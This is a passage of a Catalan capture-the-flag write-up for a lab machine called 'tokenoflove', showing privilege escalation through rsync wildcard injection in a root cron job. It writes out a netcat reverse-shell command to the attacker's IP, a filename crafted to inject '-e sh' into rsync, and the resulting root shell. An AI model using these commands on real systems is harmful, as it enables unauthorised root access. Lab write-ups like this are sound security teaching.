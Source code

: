 Si intentem crear una clau SSH per a l'usuari `eros`, no servirà de res, ja que el servei SSH només és accessible per a l'usuari root.

```bash
cupido@tokenoflove:~/tokenoflove$ cat /etc/ssh/sshd_config
# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/local/bin:/usr/bin:/bin:/usr/games

# The strategy use...
...
...

AllowUsers root
```

D'altra banda, si observem els processos que s'executen com a root amb `pspy64`, ens l'enviem al servidor i l'executem, esperem un minut i trobem el següent procés.

![alt text](../../../assets/images/token-of-love/image-12.png)

Veiem que hi ha un procés que, mitjançant rsync, copia tot el directori home de l'usuari `eros`. Tal com està configurat, és vulnerable a rsync wildcards (https://www.exploit-db.com/papers/33930).

Bàsicament, el que ens interessa és això:

```
CMD: UID=0     PID=2888   | /bin/sh -c bash -c "cd /home/eros && rsync -i /root/.ssh/id_ed25519 -t *.txt tokenoflove:/root/copyhome-eros" > /dev/null 2>&1
CMD: UID=0     PID=2890   | rsync -i /root/.ssh/id_ed25519 -t nota2.txt nota3.txt nota.txt tokenoflove:/root/copyhome-eros 
```

Continuem amb l'usuari `cupido`, podem escriure fitxers amb sudo com l'usuari `eros` i, a més, tenim una possible vulnerabilitat de rsync wildcard. Combinem les dues coses per crear els següents fitxers i accedir directament a `root`.

```bash
cupido@tokenoflove:~$ echo "nc -c bash 192.168.1.116 443" | sudo -u eros /usr/bin/tee /home/eros/shell.txt
nc -c bash 192.168.1.116 443
cupido@tokenoflove:~$ echo "" | sudo -u eros /usr/bin/tee /home/eros/'-e sh shell.txt'
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.1.116] from (UNKNOWN) [192.168.1.179] 41722
id
uid=0(root) gid=0(root) grupos=0(root)
```

